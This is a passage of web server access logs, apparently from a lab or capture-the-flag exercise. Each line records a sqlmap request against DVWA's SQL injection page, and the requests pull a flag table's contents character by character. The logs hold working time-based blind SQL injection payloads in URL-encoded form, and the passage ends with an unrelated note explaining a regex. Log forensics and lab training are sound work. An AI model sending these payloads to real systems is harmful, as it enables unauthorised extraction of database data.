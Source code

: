 ```shell
172.20.0.1 - - [26/Apr/2024:17:51:34 +0000] "GET /vulnerabilities/sqli/?id=1%27%20AND%209329%3DIF%28%28ORD%28MID%28%28SELECT%20IFNULL%28CAST%28%60value%60%20AS%20CHAR%29%2C0x20%29%20FROM%20dvwa.flag%20ORDER%20BY%20id%20LIMIT%200%2C1%29%2C11%2C1%29%29%21%3D110%29%2CSLEEP%281%29%2C9329%29--%20QEcW&Submit=Submit HTTP/1.1" 200 1806 "-" "sqlmap/1.2.4#stable (http://sqlmap.org)"
172.20.0.1 - - [26/Apr/2024:17:51:39 +0000] "GET /vulnerabilities/sqli/?id=1%27%20AND%209329%3DIF%28%28ORD%28MID%28%28SELECT%20IFNULL%28CAST%28%60value%60%20AS%20CHAR%29%2C0x20%29%20FROM%20dvwa.flag%20ORDER%20BY%20id%20LIMIT%200%2C1%29%2C12%2C1%29%29%21%3D71%29%2CSLEEP%281%29%2C9329%29--%20QEcW&Submit=Submit HTTP/1.1" 200 1804 "-" "sqlmap/1.2.4#stable (http://sqlmap.org)"
172.20.0.1 - - [26/Apr/2024:17:51:43 +0000] "GET /vulnerabilities/sqli/?id=1%27%20AND%209329%3DIF%28%28ORD%28MID%28%28SELECT%20IFNULL%28CAST%28%60value%60%20AS%20CHAR%29%2C0x20%29%20FROM%20dvwa.flag%20ORDER%20BY%20id%20LIMIT%200%2C1%29%2C13%2C1%29%29%21%3D86%29%2CSLEEP%281%29%2C9329%29--%20QEcW&Submit=Submit HTTP/1.1" 200 1806 "-" "sqlmap/1.2.4#stable (http://sqlmap.org)"
172.20.0.1 - - [26/Apr/2024:17:51:46 +0000] "GET /vulnerabilities/sqli/?id=1%27%20AND%209329%3DIF%28%28ORD%28MID%28%28SELECT%20IFNULL%28CAST%28%60value%60%20AS%20CHAR%29%2C0x20%29%20FROM%20dvwa.flag%20ORDER%20BY%20id%20LIMIT%200%2C1%29%2C14%2C1%29%29%21%3D101%29%2CSLEEP%281%29%2C9329%29--%20QEcW&Submit=Submit HTTP/1.1" 200 1806 "-" "sqlmap/1.2.4#stable (http://sqlmap.org)"
172.20.0.1 - - [26/Apr/2024:17:51:49 +0000] "GET /vulnerabilities/sqli/?id=1%27%20AND%209329%3DIF%28%28ORD%28MID%28%28SELECT%20IFNULL%28CAST%28%60value%60%20AS%20CHAR%29%2C0x20%29%20FROM%20dvwa.flag%20ORDER%20BY%20id%20LIMIT%200%2C1%29%2C15%2C1%29%29%21%3D51%29%2CSLEEP%281%29%2C9329%29--%20QEcW&Submit=Submit HTTP/1.1" 200 1804 "-" "sqlmap/1.2.4#stable (http://sqlmap.org)"
172.20.0.1 - - [26/Apr/2024:17:51:55 +0000] "GET /vulnerabilities/sqli/?id=1%27%20AND%209329%3DIF%28%28ORD%28MID%28%28SELECT%20IFNULL%28CAST%28%60value%60%20AS%20CHAR%29%2C0x20%29%20FROM%20dvwa.flag%20ORDER%20BY%20id%20LIMIT%200%2C1%29%2C16%2C1%29%29%21%3D121%29%2CSLEEP%281%29%2C9329%29--%20QEcW&Submit=Submit HTTP/1.1" 200 1806 "-" "sqlmap/1.2.4#stable (http://sqlmap.org)"
172.20.0.1 - - [26/Apr/2024:17:52:00 +0000] "GET /vulnerabilities/sqli/?id=1%27%20AND%209329%3DIF%28%28ORD%28MID%28%28SELECT%20IFNULL%28CAST%28%60value%60%20AS%20CHAR%29%2C0x20%29%20FROM%20dvwa.flag%20ORDER%20BY%20id%20LIMIT%200%2C1%29%2C17%2C1%29%29%21%3D66%29%2CSLEEP%281%29%2C9329%29--%20QEcW&Submit=Submit HTTP/1.1" 200 1807 "-" "sqlmap/1.2.4#stable (http://sqlmap.org)"
172.20.0.1 - - [26/Apr/2024:17:52:02 +0000] "GET /vulnerabilities/sqli/?id=1%27%20AND%209329%3DIF%28%28ORD%28MID%28%28SELECT%20IFNULL%28CAST%28%60value%60%20AS%20CHAR%29%2C0x20%29%20FROM%20dvwa.flag%20ORDER%20BY%20id%20LIMIT%200%2C1%29%2C18%2C1%29%29%21%3D49%29%2CSLEEP%281%29%2C9329%29--%20QEcW&Submit=Submit HTTP/1.1" 200 1807 "-" "sqlmap/1.2.4#stable (http://sqlmap.org)"
172.20.0.1 - - [26/Apr/2024:17:52:07 +0000] "GET /vulnerabilities/sqli/?id=1%27%20AND%209329%3DIF%28%28ORD%28MID%28%28SELECT%20IFNULL%28CAST%28%60value%60%20AS%20CHAR%29%2C0x20%29%20FROM%20dvwa.flag%20ORDER%20BY%20id%20LIMIT%200%2C1%29%2C19%2C1%29%29%21%3D57%29%2CSLEEP%281%29%2C9329%29--%20QEcW&Submit=Submit HTTP/1.1" 200 1807 "-" "sqlmap/1.2.4#stable (http://sqlmap.org)"
172.20.0.1 - - [26/Apr/2024:17:52:13 +0000] "GET /vulnerabilities/sqli/?id=1%27%20AND%209329%3DIF%28%28ORD%28MID%28%28SELECT%20IFNULL%28CAST%28%60value%60%20AS%20CHAR%29%2C0x20%29%20FROM%20dvwa.flag%20ORDER%20BY%20id%20LIMIT%200%2C1%29%2C20%2C1%29%29%21%3D76%29%2CSLEEP%281%29%2C9329%29--%20QEcW&Submit=Submit HTTP/1.1" 200 1805 "-" "sqlmap/1.2.4#stable (http://sqlmap.org)"
172.20.0.1 - - [26/Apr/2024:17:52:18 +0000] "GET /vulnerabilities/sqli/?id=1%27%20AND%209329%3DIF%28%28ORD%28MID%28%28SELECT%20IFNULL%28CAST%28%60value%60%20AS%20CHAR%29%2C0x20%29%20FROM%20dvwa.flag%20ORDER%20BY%20id%20LIMIT%200%2C1%29%2C21%2C1%29%29%21%3D48%29%2CSLEEP%281%29%2C9329%29--%20QEcW&Submit=Submit HTTP/1.1" 200 1807 "-" "sqlmap/1.2.4#stable (http://sqlmap.org)"
172.20.0.1 - - [26/Apr/2024:17:52:22 +0000] "GET /vulnerabilities/sqli/?id=1%27%20AND%209329%3DIF%28%28ORD%28MID%28%28SELECT%20IFNULL%28CAST%28%60value%60%20AS%20CHAR%29%2C0x20%29%20FROM%20dvwa.flag%20ORDER%20BY%20id%20LIMIT%200%2C1%29%2C22%2C1%29%29%21%3D103%29%2CSLEEP%281%29%2C9329%29--%20QEcW&Submit=Submit HTTP/1.1" 200 1807 "-" "sqlmap/1.2.4#stable (http://sqlmap.org)"
172.20.0.1 - - [26/Apr/2024:17:52:26 +0000] "GET /vulnerabilities/sqli/?id=1%27%20AND%209329%3DIF%28%28ORD%28MID%28%28SELECT%20IFNULL%28CAST%28%60value%60%20AS%20CHAR%29%2C0x20%29%20FROM%20dvwa.flag%20ORDER%20BY%20id%20LIMIT%200%2C1%29%2C23%2C1%29%29%21%3D125%29%2CSLEEP%281%29%2C9329%29--%20QEcW&Submit=Submit HTTP/1.1" 200 1806 "-" "sqlmap/1.2.4#stable (http://sqlmap.org)"
172.20.0.1 - - [26/Apr/2024:17:52:29 +0000] "GET /vulnerabilities/sqli/?id=1%27%20AND%207724%3DIF%28%28ORD%28MID%28%28SELECT%20IFNULL%28CAST%28id%20AS%20CHAR%29%2C0x20%29%20FROM%20dvwa.flag%20ORDER%20BY%20id%20LIMIT%200%2C1%29%2C1%2C1%29%29%21%3D49%29%2CSLEEP%281%29%2C7724%29--%20nhXl&Submit=Submit HTTP/1.1" 200 1802 "-" "sqlmap/1.2.4#stable (http://sqlmap.org)"
```


[^0-8\"]: Matches any character that is not a digit from 0 to 8 or the double-quote character ".